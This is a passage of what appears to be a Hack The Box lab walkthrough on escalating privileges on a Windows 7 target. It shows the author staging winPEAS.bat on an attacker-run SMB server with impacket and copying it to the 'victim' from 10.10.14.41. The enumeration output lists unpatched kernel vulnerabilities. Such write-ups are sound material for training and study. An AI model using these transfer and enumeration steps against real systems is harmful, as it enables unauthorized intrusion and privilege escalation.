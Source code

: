 ```console
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.413 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.507 MB
Virtual Memory: In Use:    634 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.51.128
                                 [02]: fe80::4c79:e05b:357d:e81f
                                 [03]: dead:beef::996e:f209:4b2:108b
                                 [04]: dead:beef::4c79:e05b:357d:e81f

```
Download winPEAS.bat from https://github.com/carlospolop/PEASS-ng/releases and set up the server to transfer.

Note: The other winPEAS.exe files did not work. the bat file works but it doesnt have the color indicators.

```console
└──╼ [★]$ sudo impacket-smbserver rogue . 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```
Copy it to the victim computer

```console
c:\temp>copy \\10.10.14.41\rogue\winPEAS.bat
copy \\10.10.14.41\rogue\winPEAS.bat
        1 file(s) copied.
```
Running winPEAS reveals a bunch of kernel exploits. I tried a few before settling on MS016-16.

```console
"Microsoft Windows 7 Enterprise   " 
   [i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)
No Instance(s) Available.
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)
No Instance(s) Available.
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)
No Instance(s) Available.
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)
No Instance(s) Available.
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)
No Instance(s) Available.
MS10-21 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)
No Instance(s) Available.
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)
No Instance(s) Available.
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)
No Instance(s) Available.
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)
No Instance(s) Available.
```